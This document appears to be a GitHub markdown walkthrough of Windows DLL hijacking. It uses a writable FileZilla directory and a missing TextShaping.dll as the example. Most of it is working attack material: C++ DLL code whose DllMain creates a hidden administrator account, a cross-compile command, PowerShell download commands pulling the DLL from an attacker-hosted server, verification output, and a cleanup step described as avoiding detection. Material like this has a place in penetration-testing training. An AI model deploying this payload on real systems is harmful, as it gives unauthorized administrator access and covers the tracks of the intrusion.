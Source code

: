 ## DLL Hijacking

### Overview
Dynamic Link Libraries (DLLs) are essential components in Windows systems that provide shared functionality for applications and services. When an application or service looks for a required DLL, it follows a predefined **DLL search order**:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

A misconfiguration or missing DLL can create an opportunity for **DLL Hijacking**, where a malicious DLL placed in a writable directory is loaded instead of the legitimate one. If the application runs with elevated privileges, the malicious DLL will execute with the same level of access.

---

### Step 1: Identify Writable Directories and Missing DLLs
First, identify directories where you have write permissions and locate missing DLLs being searched for by applications or services.

1. **Search for Writable Directories**:
   Run **WinRecon.ps1** to enumerate writable directories and check for vulnerable DLLs:
   - **Option 2**: Run Custom Recon - (Select which functions to enable).
   - **Option 18**: Perform DLL Hijacking checks against known vulnerable software and directories.

Example Output:

![image](https://github.com/user-attachments/assets/6639ec58-b090-4e72-9af0-687bc28daaa4)
![image](https://github.com/user-attachments/assets/475bbb6b-f128-4c6f-bf3f-b4c71f199678)


In this example, the `FileZilla` application directory is writable, and the program attempts to load `TextShaping.dll`, making it a potential candidate for DLL hijacking.

---

### Step 2: Confirm Writable Permissions
Verify that the identified directory allows you to write files:

```powershell
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

Check if the file was successfully created:
```powershell
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

If successful, you have sufficient permissions to place a malicious DLL in this directory.

---

### Step 3: Create a Malicious DLL
The goal is to create a DLL that executes malicious commands when loaded. In this case, the DLL will add a new user to the local Administrators group.

#### Malicious DLL Code in C++:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user taskmgrsvc Password123! /add");
  	    i = system ("net localgroup administrators taskmgrsvc /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Compile the DLL:
On your Kali machine, cross-compile the DLL using `mingw-w64`:

```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

- **`--shared`**: Generates a DLL file.
- **`TextShaping.dll`**: The name must match the vulnerable DLL identified earlier.

---

### Step 4: Transfer the DLL to the Target Directory
Host the DLL on your attacker machine and download it to the writable directory on the target system:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target system, download the DLL using PowerShell:
   ```powershell
   iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'TextShaping.dll'
   ```
   ```powershell
   powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://<attacker_ip>/TextShaping.dll', 'TextShaping.dll')"
   ```
3. Move File
   ```powershell
   move TextShaping.dll 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
4. Confirm the file exists:
   ```powershell
   ls 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```

---

### Step 5: Trigger the DLL Hijacking
The DLL hijacking will occur when a higher-privileged user or system process runs the application. For example, when the `FileZilla` application is executed by an administrator or another user with elevated permissions, the malicious DLL will be loaded from the writable directory.

Wait for the application to be executed by someone with higher privileges.

---

### Step 6: Verify Exploitation
After the DLL executes, verify that the new user has been created and added to the Administrators group:

1. Check for the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the malicious DLL was loaded, and the `taskmgrsvc` account was successfully added to the Administrators group.

---

### Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious DLL:
   ```powershell
   del 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Missing DLLs provide a great opportunity for code execution, especially if the search order allows loading from writable directories.
- Always verify writable permissions before deploying malicious DLLs.

---

### References
- [HackTricks - DLL Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

---
